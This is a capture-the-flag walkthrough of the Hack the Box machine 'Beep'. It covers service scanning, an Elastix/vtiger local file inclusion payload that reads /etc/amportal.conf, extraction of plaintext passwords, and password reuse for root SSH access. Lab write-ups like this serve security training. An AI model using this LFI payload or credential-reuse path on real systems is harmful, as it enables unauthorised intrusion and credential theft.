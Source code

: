 Title: Beep - Hack the Box
Date: 2020-04-26
Modified: 2020-05-03
Category: ctf
Tags: ctf, hack the box, oscp prep
Slug: htb-beep
Authors: Riley
Summary: Guide to Beep on Hack the Box.

## Description

Beep is a very straightforward Unix box featuring LFI web app exploit.  The path goes pretty much straight to root.

## Reconnaissance

To start, we should see what services are available on this box.

**Nmap scan**
```bash
# nmap -Pn -oA nmap/beep -sV -sC 10.10.10.7
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-26 14:01 PDT
Nmap scan report for 10.10.10.7
Host is up (0.12s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
25/tcp    open  smtp       Postfix smtpd
80/tcp    open  http       Apache httpd 2.2.3
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
111/tcp   open  rpcbind    2 (RPC #100000)
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
443/tcp   open  ssl/https?
993/tcp   open  ssl/imap   Cyrus imapd
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql      MySQL (unauthorized)
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com
```

There's a fair bit going on here, but a good place to start would be the HTTPS server on 443

### Examining HTTPS/443: Elastix server

The server hosts an Elastix site.

![f0f956c6b2374e07b2536db4d175395c.png](images/ctf/htb/beep/f0f956c6b2374e07b2536db4d175395c.png)

A quick `searchsploit` reveals several exploits to choose from, one of note that may work is an Local File Inclusion (LFI) vulnerability.

```bash
# searchsploit elastix
-------------------------------------------------------------------------------------------------------------------- ----------------------------------------│
 Exploit Title                                                                                                      |  Path                                  │
                                                                                                                    | (/usr/share/exploitdb/)                │
-------------------------------------------------------------------------------------------------------------------- ----------------------------------------│
Elastix - 'page' Cross-Site Scripting                                                                               | exploits/php/webapps/38078.py          │
Elastix - Multiple Cross-Site Scripting Vulnerabilities                                                             | exploits/php/webapps/38544.txt         │
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities                                                       | exploits/php/webapps/34942.txt         │
Elastix 2.2.0 - 'graph.php' Local File Inclusion                                                                    | exploits/php/webapps/37637.pl          │
Elastix 2.x - Blind SQL Injection                                                                                   | exploits/php/webapps/36305.txt         │
Elastix < 2.5 - PHP Code Injection                                                                                  | exploits/php/webapps/38091.php         │
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                                                              | exploits/php/webapps/18650.py          │
------------------------------------------------------------------------------------------------------------------- | ---------------------------------------│
```

Exploiting an LFI would allow us to snoop on otherwise inaccessible files, such as configuration files.  In web apps, these usually contain sensitive data such as user account names and passwords; we could potentially use these to access another service (such as MySQL) or get access to the server itself.

I couldn't exploit the server by running the exploit file, but there is a comment in the soruce code that indicates what file path was used; we should be able to copy and paste the value into a browser manually.

```perl
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

![272cfa5dfa134126a48c44c9e786bb4d.png](images/ctf/htb/beep/272cfa5dfa134126a48c44c9e786bb4d.png)

The exploit worked!  This is a large text file, so it would be best to sort it using some bash utilities.  For this, I copy and pasted the the content into a new file `amportal.conf` manually.

```bash
# cat amportal.conf | tr " " "\n" | sort | uniq | grep USER
AMPDBUSER
AMPDBUSER:
AMPDBUSER/AMPDBPASS
AMPDBUSER=asteriskuser
AMPMGRUSER
AMPMGRUSER:
AMPMGRUSER=admin
ARI_ADMIN_USERNAME=admin
CDRDBUSER:
USER

# cat amportal.conf | tr " " "\n" | sort | uniq | grep PASS                                                                          
AMPDBPASS:
AMPDBPASS=amp109
AMPDBPASS=jEhdIekWmdjE
AMPDBUSER/AMPDBPASS
AMPMGRPASS:
#AMPMGRPASS=amp111
AMPMGRPASS=jEhdIekWmdjE
ARI_ADMIN_PASSWORD
ARI_ADMIN_PASSWORD=jEhdIekWmdjE
CDRDBPASS:
FOPPASSWORD:
FOPPASSWORD=jEhdIekWmdjE
#FOPPASSWORD=passw0rd
localhost=(root)NOPASSWD:
```

## Getting root

We can quickly test the password `jEhdIekWmdjE` to see what we now have access to.  A good first target would be root on SSH.

*Note: I had to add the `-oKexAlgorithms=diffie-hellman-group-exchange-sha1` as SSH was giving an error `no matching key exchange method found`.*

```bash
# ssh -oKexAlgorithms=diffie-hellman-group-exchange-sha1 root@10.10.10.7
The authenticity of host '10.10.10.7 (10.10.10.7)' can not be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.7' (RSA) to the list of known hosts.
root@10.10.10.7 password: jEhdIekWmdjE
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix 
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# whoami && hostname
root
beep
[root@beep ~]# wc -c root.txt
33 root.txt
[root@beep ~]#
```

The password lets us authenticate as root, giving us total control of the target server.

Thus concludes this walkthrough.  Thank you for reading.

